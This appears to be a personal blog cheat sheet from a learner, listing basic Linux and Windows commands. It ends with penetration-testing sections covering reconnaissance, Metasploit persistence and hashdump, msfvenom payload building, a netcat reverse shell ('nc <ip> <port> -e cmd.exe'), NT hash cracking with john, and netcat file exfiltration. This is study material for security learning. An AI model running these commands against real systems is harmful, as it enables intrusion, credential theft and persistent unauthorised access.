 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
	<ul>
		<strong>
			<li><code>C:\> <command> /? </code></li>
			<li><code>root@kl~# <command> -h </code></li>
			<li><code>root@kl~# <command> --help </code></li>
			<li><code>root@kl~# man <command> </code></li>
			<li><code>root@kl~# apropos </code></li>
			<li><code>root@kl~# history </code></li>
			<li><code>root@kl~# hostname</code></li>
			<li><code>root@kl~# sudo </code></li>
			<li><code>root@kl~# whoami </code></li>
		</strong>
				<ul>
					<li>(print current user id and name)</li>	
				</ul>
		<strong>
			<li><code>root@kl~# date </code></li> 
			<li><code>C:\>  chdir </code></li>
		</strong>
				<ul>
					<li>(displays location)</li>
				</ul>
		<strong>
			<li><code>root@kl~# pwd </code></li>
		</strong>
				<ul>
					<li>(displays location)</li>
				</ul>
	</ul>

<h2>Processes and Things</h2>
	<ul>
		<strong>
			<li><code>root@kl~# jobs </code></li>
		</strong>
				<ul>
					<li>(list cronjobs)</li>
				</ul>
		<strong>
			<li><code>root@kl~# kill </code></li>
		</strong>
				<ul>
					<li>(stop processes)</li>
				</ul>
		<strong>
			<li><code>root@kl~# pkill </code></li>
		</strong>
				<ul>
					<li>(stop processes)</li>
				</ul>
		<strong>	
			<li><code> root@kl~# ps –aef </code></li>
		</strong>
				<ul>
					<li>(list processes status)</li>
				</ul>
		<strong>
			<li><code>C:\ tasklist </code></li>
		</strong>
	</ul>

<h2>Files</h2>
	<ul>
		<li><code>root@kl~# cp <src> <dst> </code></li>
			<ul>		
				<li>(copy)</li>
			</ul>
		<li><code>C:\> copy <src> <dst> </code></li>
		<li><code>root@kl~# clear </code></li>
		<li><code>C:\> cls </code></li>
		<li><code>C:\> dir </code></li>
		<li><code>root@kl~# echo <message> </code></li>
			<ul>
				<li>(print to screen)</li>
			</ul>		
		<li><code>root@kl~# find –iname <file> </code></li>
		<li><code>C:\> findstr /i /s <string> *.txt </code></li>
			<ul>
				<li>(like grep for Windows)</li>
			</ul>
		<li><code>root@kl~# file </code></li>
			<ul>
				<li>(determine file type)</li>
			</ul>
		<li><code>C:\> dir \ <file> /b /s </code></li>
		<li><code>root@kl~# grep </code></li>
			<ul>
				<li>(search files for matching text)</li>
			</ul>
		<li><code>root@kl~# gzip </code></li>
			<ul>
				<li>(compress or decompress files)</li>
			</ul>
		<li><code>root@kl~# less </code></li>
			<ul>
				<li>(display output one screen at a time)</li>
			</ul>	
		<li><code>root@kl~# locate </code></li>
		<li><code>root@kl~# ls </code></li>
		<li><code>root@kl~# mkdir </code></li>
			<ul>
				<li>(new directory)</li>
			</ul>	
		<li><code>root@kl~# mv <src><dst> </code></li>
			<ul>
				<li>(move/rename a file)</li>
			</ul>
		<li><code>C:\>  move <src> <dst> </code></li>
		<li><code>root@kl~# rm </code></li> 
			<ul>
				<li>(remove files)</li>
			</ul>	
		<li><code>C:\> ren </code></li>
			<ul>
				<li>(renames file)</li>
			</ul>		
		<li><code>root@kl~# umask </code></li>
			<ul>
				<li>(users file creation mask)</li>
			</ul>	
		<li><code>root@kl~# uniq </code></li>
			<ul>
				<li>(uniquify files)</li>
			</ul>	
		<li><code>root@kl~# vi/vim </code></li>
			<ul>
				<li>(the best text editor)</li>
			</ul>	
		<li><code>root@kl~# wc </code></li>
			<ul>
				<li>(print byte, word and line counts)</li>
			</ul>	
		<li><code>root@kl~# whereis </code></li>
			<ul>
				<li>(search $path, man pages and source files for program)</li>
			</ul>	
	</ul>
		
<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
